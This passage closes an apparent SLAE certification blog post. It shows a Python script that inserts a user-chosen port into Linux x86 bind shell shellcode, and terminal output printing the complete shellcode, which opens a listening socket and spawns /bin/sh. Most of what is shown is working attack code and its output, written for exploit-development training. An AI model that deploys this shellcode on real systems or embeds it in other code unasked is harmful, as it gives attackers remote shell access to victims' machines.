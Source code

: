 ```python

# Make sure port is good!
if port < 1 or port > 65535:
  print P+ "Please specify port number between 1 and 65535" +W
  exit()

if port <= 1024:
  print P+ "This port require root privileges!" +W

# Change port to Shellcode 
port_shellcode = format(port, '04x')
port_shellcode = "\\x" + str(port_shellcode[0:2]) + "\\x" + str(port_shellcode[2:4])  

# Print final Shellcode, and highlight port in yellow ;)
print P+ "\\x31\\xc0\\x31\\xdb\\x31\\xd2\\x31\\xf6\\x50\\xb0\\x66\\xfe\\xc3\\x6a\\x01\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x89\\xc6\\xb0\\x66\\x5b\\x5f\\x52\\x66\\x68" + Y+ port_shellcode + P+ "\\x66\\x53\\x6a\\x10\\x51\\x56\\x89\\xe1\\xcd\\x80\\x5a\\xb0\\x66\\x80\\xc3\\x02\\xcd\\x80\\x50\\x50\\xb0\\x66\\x43\\x52\\x89\\xe1\\xcd\\x80\\x93\\x31\\xc9\\x80\\xc1\\x02\\xb0\\x3f\\xcd\\x80\\xfe\\xc9\\x79\\xf8\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80" +W
```

Now running the script with port `2018` will output the exact same shellcode generated earlier!

```sh
ihack4falafel@falafel:~/Desktop# python BindShell.py 2018
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
\x31\xc0\x31\xdb\x31\xd2\x31\xf6\x50\xb0\x66\xfe\xc3\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\x5b\x5f\x52\x66\x68\x07\xe2\x66\x53\x6a\x10\x51\x56\x89\xe1\xcd\x80\x5a\xb0\x66\x80\xc3\x02\xcd\x80\x50\x50\xb0\x66\x43\x52\x89\xe1\xcd\x80\x93\x31\xc9\x80\xc1\x02\xb0\x3f\xcd\x80\xfe\xc9\x79\xf8\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
ihack4falafel@falafel# 
```

Closing Thoughts
----------------
I most certainly picked up new skills writing this blog post and hope you did too! All of the above code is available on my github as shown in the link below. Feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel) . This post is one of many to come so stay tuned!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

GitHub Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%201](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%201)
